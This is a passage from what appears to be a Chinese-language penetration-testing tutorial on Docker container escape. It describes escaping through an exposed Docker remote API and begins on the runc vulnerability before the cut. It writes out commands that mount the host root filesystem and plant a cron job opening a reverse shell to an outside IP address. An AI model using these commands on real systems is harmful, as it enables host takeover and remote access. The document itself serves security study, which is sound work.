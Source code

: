 ### 逃逸

1、在容器内安装 docker

```bash
apt-get update
apt-get install docker.io
```

2、查看宿主机 docker 镜像信息

```bash
docker -H tcp://ip:2375 images
```

[![](assets/1708095739-c2f27d5142f5f08d0b2ffea7c2a71aa5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428211553-cd69175c-e5c6-1.png)  
3、启动一个容器并将宿主机根目录挂在到容器的 test 目录

```bash
docker -H tcp://ip:2375 run -it -v /:/test 5d2df19066ac /bin/bash
```

4、计时任务反弹 shell

```bash
echo '* * * * * bash -i >& /dev/tcp/101.200.208.44/4000 0>&1' >> /test/var/spool/cron/root
```

## 容器服务缺陷逃逸

runc 是一个底层服务工具，runC 管理容器的创建，运行，销毁等，docker 部分版本服务运行时底层其实在运行着 runc 服务，攻击者可以通过特定的容器镜像或者 exec 操作重写宿主机上的 runc 二进制文件，并在宿主机上以 root 身份执行命令。

### 影响版本

docker version <=18.09.2

RunC version <=1.0-rc6

### 环境搭建

由于对版本有限制，所以用之前 docker 中的 ubuntu 环境搭建符合漏洞版本的 docker，参考[Ubuntu 安装指定版本的 docker - 朝花夕拾 - SegmentFault 思否](https://segmentfault.com/a/1190000042702027?utm_source=sf-similar-article)

1、安装 apt 依赖包，用于通过 HTTPS 来获取仓库

```bash
apt-get install apt-transport-https ca-certificates curl gnupg-agent software-properties-common
```
